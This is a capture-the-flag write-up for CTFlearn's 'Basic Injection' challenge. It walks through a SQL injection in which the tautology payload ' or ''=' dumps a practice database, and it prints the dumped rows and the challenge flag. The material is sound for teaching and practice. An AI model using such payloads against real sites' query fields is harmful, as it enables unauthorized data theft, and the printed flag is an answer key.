 # Basic Injection

See if you can leak the whole database using what you know about SQL Injections. [link](https://web.ctflearn.com/web4/)

Don't know where to begin? Check out CTFlearn's SQL Injection Lab

## Solution
Try random input

```
Original Query: SELECT * FROM webfour.webfour where name = '$input'
Your Resulting Query: SELECT * FROM webfour.webfour where name = 'asa'
0 results
```

Look over the source code:
```html
<!-- Try some names like Hiroki, Noah, Luke -->
		<div class="row">
			<div class="col l4 push-l4">
	<p>Original Query: SELECT * FROM webfour.webfour where name = '$input'</p>
	<p>Your Resulting Query: SELECT * FROM webfour.webfour where name = 'asa'	</p>		
	<p>
``` 

Try to input them all, and only "Luke" that have result.
```
Original Query: SELECT * FROM webfour.webfour where name = '$input'
Your Resulting Query: SELECT * FROM webfour.webfour where name = 'Luke'
Name: Luke
Data: I made this problem.
```

In SQL Injection theory, this will create the following SQL request:
```sql
SELECT * FROM Users WHERE Name ="" or ""="" AND Pass ="" or ""=""
```
This would then return all of the users and passwords stored.

After trying ‘ or ‘’=‘, the site rewarded me with all of the contents in the database.

```
Original Query: SELECT * FROM webfour.webfour where name = '$input'

Your Resulting Query: SELECT * FROM webfour.webfour where name = '' or ''=''

Name: Luke
Data: I made this problem.
Name: Alec
Data: Steam boys.
Name: Jalen
Data: Pump that iron fool.
Name: Eric
Data: I make cars.
Name: Sam
Data: Thinks he knows SQL.
Name: fl4g__giv3r
Data: CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}
Name: snoutpop
Data: jowls
Name: Chunbucket
Data: @datboiiii
```
## Flag
    CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}